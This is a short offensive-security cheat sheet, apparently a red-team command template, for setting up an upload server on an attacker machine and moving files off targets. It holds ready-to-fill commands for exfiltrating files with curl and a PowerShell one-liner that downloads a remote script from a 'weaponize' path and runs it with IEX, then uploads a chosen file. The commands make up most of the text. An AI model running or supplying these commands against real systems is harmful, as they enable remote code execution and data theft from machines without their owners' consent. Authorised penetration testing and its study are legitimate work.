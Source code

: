 # uploadserver
% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 

## install
```bash
pipx install uploadserver
```


## python upload HTTP server (basic auth)
sudo socat TCP-LISTEN:80,fork TCP:localhost:9090
```bash
sudo socat TCP-LISTEN:<http_port|80>,fork TCP:localhost:<http_user_port|9090> & uploadserver --basic-auth-upload <uploadserver_login>:<uploadserver_password> <http_user_port|9090>
```

## curl upload
```bash
curl -X POST http://<local_ip>:<port|80>/upload -F 'files=@basicauth-example.txt' -u <uploadserver_login>:<uploadserver_password>
```

## powershell upload
certutil -encode <infile> <outfile>
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<local_ip>:<port|80>/<psupload_path>PSUpload.ps1');Invoke-FileUpload -Uri http://<local_ip>:<port|80>/upload -User <uploadserver_login> -Pass <uploadserver_password> -File <path>
```

= psupload_path: windows/windows_weaponize/dev/